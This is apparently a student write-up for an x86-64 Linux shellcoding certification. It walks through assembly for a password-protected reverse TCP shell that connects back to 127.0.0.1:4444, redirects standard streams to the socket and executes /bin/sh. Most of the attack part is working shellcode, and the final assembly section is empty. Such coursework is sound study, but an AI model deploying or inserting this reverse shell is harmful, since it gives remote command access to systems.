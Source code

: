 ## Assignment #2: Shell_Reverse_TCP
---
---
### Introduction
---
Requirements for this assignment are to create a Shell_bind_tcp shellcode that: 

- Conects back to a IP and PORT 
- Requires a password 
- If the password is correct, then Exec Shell is executed 
- NULL bytes (0x00) must be removed from the shellcode 

To build the shellcode, linux sockets are required to implement the following steps: 

1. Create a socket 
2. Reverse connect 
3. Ask, read, and validate the password 
4. Duplicate SDTIN, STDOUT and STDERR to the socket 
5. Execute /bin/sh  

As in the previous assignment, the program will exit with a Segmentation Fault if the password is incorrect.

For Linux Sockets Programming, the following System calls are required on this assignment:
```c
int socket(int domain, int type, int protocol); 
connect(sock, (struct sockaddr *)&server, sockaddr_len) 
int close(int sockfd); 
```
To duplicate the standard input, output and error, `dup2()` call will be used:

```c
int dup2(int oldfd, int newfd); 
```
And to execute /bin/sh, will use the execve() call:
```c
int execve(const char *filename, 
           char *const argv[], 
           char *const envp[]);
```
### ASM Implementation
---

Will explain how we implement each step mentioned before into ASM, with the idea to make the code easy to understand. As in the previous assignment, no enphasys has been put into removing NULLs and make the shellcode small (this is done later), to make the implementation clear. This time, implementation will be easier than the previous assignment as the number of syscalls is reduced for being a reverse shell.

#### Create Socket
```asm
; sock = socket(AF_INET, SOCK_STREAM, 0) 
mov rax, 41                     ; syscall number 
mov rdi, AF_INET                ; IPv4 
mov rsi, SOCK_STREAM            ; TCP connection 
mov rdx, 0                      ; IP Protocol 
syscall 

; Save the socket_id value in RDI for future use 
mov rdi, rax                    ; value returned in RAX by syscall 
```
Opens the socket. To execute the sys_socket system call the arguments will have to be placed in the corresponding registers: 

  - RAX <- 41 : Syscall number. 
  - RDI <- 2 : Domain parameter. AF_INET is for IPv4. 
  - RSI <-  1 : Type parameter. SOCK_STREAM means connection oriented TCP. 
  - RDX <- 0 : Protocol. IPPROTO_IP means it’s an IP protocol 

The syscall will return a file descriptor in RAX that is saved into RDI. This saves the socket_id for later use in the code.

#### Connect Back
The following call is the one being to be used: 
```c
int  connect(int  sockfd, const struct sockaddr *serv_addr, socklen_t addrlen); 
```
For this assignment, registers will get the following values: 

- RDI : The sock_id from the open() call 
- RSI : Addres of the sockaddr struct 
- RDX : Length of the struct 

First is to build the struct with the required data. This is doing using the stack in the following code: 

```asm
; Prepare the struct for connect 
;     server.sin_family = AF_INET 
;     server.sin_port = htons(PORT) 
;     server.sin_addr.s_addr = inet_addr("127.0.0.1") 
;     bzero(&server.sin_zero, 8) 

xor rax, rax 
push rax                                ; bzero 

mov dword [rsp-4], 0x0100007f           ; Inet addr == 127.0.0.1 
mov word [rsp-6], 0x5c11                ; Port 4444 
mov word [rsp-8], 0x2                   ; TCP Connection 
sub rsp, 8                              ; Update RSP value 
```
The legth of this struct is a total of 16 bytes, and the address to the struct is in RSP. 

Next step is do the call to `connect()`, placing RSP into RSI, RDI already will have the socket_id fro before, and RDX the value "16" that's the length of the struct: 
```asm
; connect(sock, (struct sockaddr *)&server, sockaddr_len) 

mov rax, 42                             ; Syscall number for connect() 
mov rsi, rsp                            ; & struct 
mov rdx, 16                             ; Struct length 
syscall 
```
#### Duplicate to Socket Descriptor
Now is time to duplicate `stdin`, `stdout` and `stderr` to the sock_id. This is done in the following code, pretty much the same as the previous assignment: 
```asm
        ; duplicate sockets 
        ; dup2 (new, old) 

        mov rax, 33 
        mov rsi, 0 
        syscall 

        mov rax, 33 
        mov rsi, 1 
        syscall 

        mov rax, 33 
        mov rsi, 2 
        syscall 
 ```
#### Password Stuff
The code for the password stuff is the same as in the Assignment #1. A `“Passwd: “` prompt is shown and a password max of 8 characters is received from the user input. This input is compared to the hardcoded password and if equals the program continues, else, the program exits with a Segmentation Fault.
```asm
write_syscall: 

        mov rax, 1                              ; Syscall number for write() 
        mov rdi, r9 
        lea rsi, [rel PASSWD_PROMPT]            ; Rel addressing to prompt 
        mov rdx, 8                              ; Length of PAsswd: string 
        syscall 

read_syscall: 

        xor rax, rax                            ; Syscall number for read() 
        mov rdi, r9 
        mov rsi, [rel PASSWD_INPUT]             ; Where to store the input passwd 
        mov rdx, 8                              ; Chars to read 
        syscall 

compare_passwords: 

        mov rax, "12345678"                     ; Thgis is the password 
        lea rdi, [rel PASSWD_INPUT]             ; Compare the QWord 
        scasq 
        jne exit_program                        ; Passwords don't match, exit 
```
#### The Shell with Execve

Last step is to execute `/bin/sh`. Stack Technique is used to store the string `/bin//sh` and the length of the string: 
```asm
execve_syscall: 

        ; First NULL push 
        xor rax, rax 
        push rax 

        ; push /bin//sh in reverse 
        mov rbx, 0x68732f2f6e69622f 
        push rbx 

        ; store /bin//sh address in RDI 
        mov rdi, rsp 

        ; Second NULL push 
        push rax 

        ; set RDX 
        mov rdx, rsp 

        ; Push address of /bin//sh 
        push rdi 

        ; set RSI 
        mov rsi, rsp 

        ; Call the Execve syscall 
        add rax, 59 
        syscall 
```

#### Putting All Together
























## The End

This pages have been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html

Student ID: PA-14628
 
